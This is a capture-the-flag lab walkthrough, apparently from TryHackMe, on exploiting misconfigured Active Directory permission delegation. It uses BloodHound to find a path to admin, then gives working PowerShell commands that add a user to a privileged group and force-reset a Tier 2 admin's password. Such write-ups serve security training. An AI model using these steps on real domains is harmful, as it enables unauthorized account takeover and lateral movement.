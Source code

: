 # Exploiting permission delegation

## Exploiting ACEs

Access Control Entries (ACEs) populate Discretionary Access Control Lists (DACLs). These ACLs determine the 
permissions that certain AD objects have over others. Almost any AD object can be secured with ACEs, which then 
describe the allowed and denied permissions that any other AD object has against the target object.

Certain ACEs can be very dangerous if misconfigured:

* ForceChangePassword: Set a user's password without knowing their current password.
* AddMembers: Add users (including oneself), groups, or computers to a target group.
* GenericAll: Complete control over an object, including the ability to change the user's password, register an SPN 
or add an AD object to the target group.
* GenericWrite: Update any non-protected parameters of our target object. For example, could update the scriptPath 
parameter, which would set a user's logon script.
* WriteOwner:  Update the owner of the target object. Could make ourselves the owner, allowing us to gain additional 
permissions over the object.
* WriteDACL: We have the ability to write new ACEs to the target object's DACL. For example, could write an ACE that 
grants our account full control over the target object.
* AllExtendedRights: Perform any action associated with extended AD rights against the target object. For example, the 
ability to force change a user's password.

## Bloodhound

1. Sharphound has already been executed. The data is in the .zip task file.
2. Launch `neo4j` and `bloodhound` and import the data.

```text
sudo neo4j console
sudo bloodhound --no-sandbox
```

3. Drag the .zip file into the Bloodhound window. 
4. Search for our initial account retrieved from http://distributor.za.tryhackme.loc/creds

## Privilege Escalation

Look at the info in the Node Info tab, it is pretty obvious that the initial access user does not have many privileges. 
We have the ability to RDP into THMWRK1, but this will only provide us with low-privileged access.

1. Compromise the Tier 2 Admins group (administrative privileges on all workstations).
2. Ask Bloodhound if there is perhaps a road that we can follow to compromise this group (Add your user account as 
the start position and the Tier 2 Admins group as the end position).

An administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users 
group with the AddMembers ACE. This means that any member of the Domain Users group (including our account) can add 
accounts to the IT Support Group. Furthermore, Bloodhound shows that the IT Support Group has the ForceChangePassword 
ACE for the Tier 2 Admins group members. This is not really a misconfiguration since Tier 2 admins are not that 
sensitive, but it provides a very potent attack path when combined with the initial misconfiguration.

| ![THM Bloodhound path](../../_static/images/exploit-ad-bloodhound1.png)
|:--:|
| Add your user account as the start position and the Tier 2 Admins group as the end position. <br>Right-click `GenericWrite` and choose Help to read more information about the privilege escalation path. |

## Add AD account to the IT Support group

RDP to `thmwrk1.za.tryhackme.loc` and open a PowerShell terminal.

    xfreerdp /v:thmwrk1.za.tryhackme.loc /u:'max.smith' /p:'<given password>'

Use the Add-ADGroupMember PowerShell cmdlet from the AD-RSAT toolset.

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\max.smith> $user = Get-ADUser -Identity 'max.smith'
PS C:\Users\max.smith> $group = Get-ADGroup -Identity 'IT Support'
PS C:\Users\max.smith> Add-ADGroupMember -Identity $group -Members $user
PS C:\Users\max.smith> Get-ADGroupMember -Identity $group
...
distinguishedName : CN=max.smith,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : max.smith
objectClass       : user
objectGUID        : f0cd5ecd-6a42-4eff-8015-071e1dc3747b
SamAccountName    : max.smith
SID               : S-1-5-21-3885271727-2693558621-2658995185-1142
...
```

## Force a new password on a T2 Admin

    PS C:\Users\max.smith> Get-ADGroupMember -Identity "Tier 2 Admins"

Pick one close to the bottom, or randomly.

```text
$password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
PS C:\Users\max.smith> $t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1
PS C:\Users\max.smith> $t2admin.Name
t2_caroline.dawson
PS C:\Users\max.smith> Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password
Set-ADAccountPassword : Access is denied
At line:1 char:1
+ Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $passwor ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (CN=t2_caroline....ryhackme,DC=loc:ADAccount) [Set-ADAccountPassword],
    UnauthorizedAccessException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:System.UnauthorizedAccessException,Microsoft.ActiveDirectory.Manag
   ement.Commands.SetADAccountPassword
```

Note: If you get an `Access Denied` error, your permissions have not yet propagated through the domain. This can 
take up to 10 minutes. The best approach is to terminate the SSH or RDP session, take a quick break, and then 
reauthenticate and try again.

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\max.smith> $t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1
PS C:\Users\max.smith> $t2admin.Name
t2_alan.riley
PS C:\Users\max.smith> $password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
PS C:\Users\max.smith> Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password
PS C:\Users\max.smith>
```

Authenticate to `THMWRK1` using this target account with its new password. You currently have administrative access to 
this workstation. The flag is on the Desktop of the Administrator user on THMWRK1 (flag1.txt).
